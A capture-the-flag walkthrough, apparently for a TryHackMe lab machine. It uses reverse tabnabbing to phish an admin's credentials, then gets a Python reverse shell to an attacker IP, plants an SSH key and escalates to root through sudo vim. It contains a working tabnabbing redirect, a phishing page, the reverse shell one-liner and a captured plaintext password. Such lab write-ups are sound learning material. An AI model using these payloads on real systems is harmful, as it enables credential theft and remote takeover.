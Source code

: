 
>"Reverse tabnabbing is an attack where a page linked from the target page is able to rewrite that page, for example to replace it with a phishing site. As the user was originally on the correct page they are less likely to notice that it has been changed to a phishing site, especially if the site looks the same as the target. If the user authenticates to this new page then their credentials (or other sensitive data) are sent to the phishing site rather than the legitimate one."
https://owasp.org/www-community/attacks/Reverse_Tabnabbing
# Rustscan
```bash
rustscan -a 10.10.184.22 --ulimit 7000 -- -sC -sV   
```
### Open Ports
HTTP:80 | Apache httpd 2.4.41 ((Ubuntu))
SSH:22 | OpenSSH 8.2p1 Ubuntu 4ubuntu0.4 (Ubuntu Linux; protocol 2.0)

# Gobuster
```bash
gobuster dir -u http://10.10.184.22 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 
```
## Directories 

| Directories | Status Code | Full-URL                   |
| ----------- | ----------- | -------------------------- |
| /admin      | 312         | http://10.10.184.22/admin/ |

# Enumeration
## Exploitting underscore blank
https://book.hacktricks.xyz/pentesting-web/reverse-tab-nabbing

Start a python server on port 80 and 8000
```bash
nano mal.html
```
```html
<!DOCTYPE html>
<html>
 <body>
  <script>
  window.opener.location = "http://10.6.53.104:8000/malicious_redir.html";
  </script>
 </body>
</html>
```

```bash
nano login.html
```

Take the source page of the login form
```html
<!DOCTYPE html>
<html lang="en">   
<head>
    <meta charset="UTF-8">
    <title>Welcome</title>     
    <link rel="stylesheet" href="https://stackpath.bootstrapcdn.com/bootstrap/4.5.2/css/bootstrap.min.css">                                               
    <style>
        body{ font: 14px sans-serif; text-align: center; }    
    </style>     
</head>
<body>
	<h1 class="my-5">Hello, <b>test</b>! Welcome to our free blog promotions site.</h1>                                         
    <h1 class="my-5">Please submit your link so that we can get started.<br> All links will be reviewed by our admin who also built this site!</h1>
    <form action="" method="post">          
                <label for="link">Blog Link:</label>
                <input type="text" placeholder='http://visitme.com/' id="link" name="url"><br><br>
                <input type="submit" name="submit" value="Submit">
                <br>
                <br>
                <p>Thank you for your submission, you have entered: <a href='http://10.6.53.104:8000/mal.html' target='_blank' >Here</a></p>    </form> 
    <br>
    <p>
        <a href="reset-password.php" class="btn btn-warning">Reset Your Password</a>
        <a href="logout.php" class="btn btn-danger ml-3">Sign Out of Your Account</a>
    </p>

</body>
</html>
```

# Wireshark
Using Wireshark we can easy see the username and password of the user.

<html>
 <body>
  <script>
  window.opener.location = "http://127.0.0.1:8000/malicious_redir.html";
  </script>
 </body>
</html>

![Pasted image 20240617150919](https://github.com/BGhoster/Write-Ups/assets/43526966/5add2574-50c4-462a-9e36-9e0d9ff69a3c)

### username password
username Daniel
password=C@ughtm3napping123
# User.txt
```bash
ssh daniel@10.10.184.22
```

```bash
id
```


### Finding files with group admin priveldges
```bash
find / -group administrators -type f 2>/dev/null
```

or
### PSPY
![Pasted image 20240617152236](https://github.com/BGhoster/Write-Ups/assets/43526966/549e6b64-4711-4f92-bf9a-46eb838f5fc5)

## Getting reverse shell
Add reverse shell to query.py and wait for shell. We can change this file because we are part of the administrator group.
![Pasted image 20240617153532](https://github.com/BGhoster/Write-Ups/assets/43526966/00ce065d-8511-4676-a5a8-ac9f9228c188)

```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.6.53.104",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/sh")
```
```bash
rlwrap nc -lvnp 7777
```

## Upgrading to ssh connection
On your attackers machine enter the following commands to get ssh on victims machine
```bash
ssh-keygen -t rsa
```
```bash
cd .ssh
```
```bash
cat id_rsa.pub
```

On the victims machine enter these commands into authorized_keys
```bash
cd .ssh
```
```bash
echo "YOUR id_RSA key" > authorized_keys
```
```bash
ssh adrian@10.10.184.22
```

```bash
cat user.txt
```
	THM{REMOVED}

## Privilege Escalation 
```bash
sudo -l
```
![Pasted image 20240617154627](https://github.com/BGhoster/Write-Ups/assets/43526966/ad73d5fc-85ca-4a9f-b18e-6955b05603fa)

```bash
sudo vim -c ':!/bin/sh'
```
```bash
cd /root; cat root.txt
```
	THM{REMOVED}
